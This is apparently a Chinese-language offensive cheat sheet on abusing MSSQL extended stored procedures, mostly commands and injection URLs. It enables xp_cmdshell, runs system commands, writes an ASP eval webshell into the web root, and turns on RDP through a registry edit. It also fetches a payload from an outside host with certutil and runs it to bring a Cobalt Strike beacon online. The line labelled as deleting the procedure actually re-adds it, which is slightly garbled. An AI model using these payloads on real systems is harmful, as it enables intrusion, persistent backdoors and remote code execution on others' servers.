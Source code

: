 

#### 扩展存储过程

- 扩展存储过程以`xp`开头,主要使用外部程序语言编写的存储过程

- 如:`xp_cmdshell`直接利用其执行命令,`xp_subdirs`读取文件夹内容

- `sql server 2005` 后的版本默认关闭,需要开启后使用

- ```sql
  #开启xp_cmdshell
  EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
  
  #执行系统命令
  exec master..xp_cmdshell 'whoami'
  #查询web根目录路径
  exec master..xp_cmdshell 'where /r c:\ *.asp'
  #利用xp_cmdshell写webshell-->`^`为转义符
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp' -->找web绝对路径可利用where命令和其它扩展存储过程组合利用
  
  #利用xp_cmdshell开启3389
  http://192.168.1.1/Less-1.asp?id=1'exec xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
  
  #执行命令写入web根目录或者反弹shell
  http://192.168.1.1/Less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:\inetpub\wwwroot\systeminfo.txt' --+
  
  #执行命令写入webshell
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp'
  
  #----------------------------------------------->xp_cmdshell执行powershell命令上线CS<-----------------------------------------------
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c:\\inetpub\\wwwroot\\payload1.bat' --+
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'c:\\inetpub\\wwwroot\\payload1.bat' --
  -----------------------------------------------------------------------------------------------------------------------------------
  
  #SharpSQL Tools.exe 利用 xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master xp_cmdshell whoami
  
  #删除xp_cmdshell存储过程
  exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
  sp_addextendedproc 'xp_cmdshell','xpsql70.dll';  --> 若彻底删除C盘删
  
  #查询指定文件夹的文件列表
  exec master..xp_subdirs 'c:\';
  
  #显示当前目录的子目录xp_dirtree
  - directory :第一个参数是要查询的目录
  - depth :第二个参数是显示子目录深度,默认是0,显示所有子目录
  - file :第三个参数是bool类型,指定是否显示子目录中的文件,默认是0,表示不显示任何文件,只显示子目录
  